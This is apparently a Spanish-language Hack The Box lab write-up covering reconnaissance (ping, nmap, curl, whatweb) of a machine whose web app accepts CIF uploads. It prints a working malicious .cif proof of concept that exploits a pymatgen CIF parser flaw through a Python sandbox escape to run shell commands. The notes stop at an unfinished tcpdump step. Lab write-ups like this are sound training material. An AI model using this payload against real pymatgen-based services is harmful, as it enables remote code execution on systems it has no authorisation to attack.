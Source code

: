 ## Conexión a la VPN

Primero, nos conectamos a la VPN de Hack The Box (HTB) utilizando las credenciales proporcionadas.

### Verificando Conectividad

Para comprobar que tenemos conectividad con la máquina objetivo, realizamos un `ping` y observamos que el TTL es 63. Esto generalmente indica que la máquina está ejecutando un sistema operativo basado en Linux en entornos controlados como HTB.

```bash
ping <IP_de_la_máquina>
```

## Escaneo de Puertos

Realizamos un escaneo completo de puertos para identificar los servicios abiertos en la máquina:

```bash
sudo nmap -p- -sCV --open --min-rate=500 -n -vvv -Pn <IP_de_la_máquina> -oG escaneo
```

Luego le realizamos un caneo a los puertos 22 y 5000

```zsh
sudo nmap -sCV -p22,5000 ip-target -oN allports
``` 

Podemos hacer supocisiones por ejemplo empezar a enviar un 

```
curl ip-target:5000
```

Como vemos que esta en html, podemos ver las partes más importantes con `html2text`

```
curl ip-target:5000 | html2text
```

Y podemos observar que indica que podemos subir archivos CIF 

 Ahora veremos las tecnologias por detras con whatweb 

```
whatweb https://ip-target:5000
```

Revisamos la version del ssh y es superior a la 7.7 y del sistema es `OpenSSH 8.2p1 Ubuntu`

Ahora le echamos un ojo a la página web por el puerto 5000


Vamos a probar creando y subieno un archivo `.txt` para validar extenciones, creando un simple archivo y luego subirlo en la página para ver el tipo de error que nos da 

Luego intentamos crear un archivo simple con un hola del archivo `test.cif`
No se logra nada xd

Lo primero que haría es buscar un archivo malicioso `.cif` 

Y encontramos este repo en git : 
- https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

Y este es el código con el que tuvimos Control  remoto al servidor :

Poc vuln.cif

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Editamos la parte del touch pwned y nos ponemos a la escucha por **tcpdump**:

```
tcpdump -i tun0 icmp -n
```

min 20:35 (no se vio nada en el tcpdump tratar de cambiar eth0)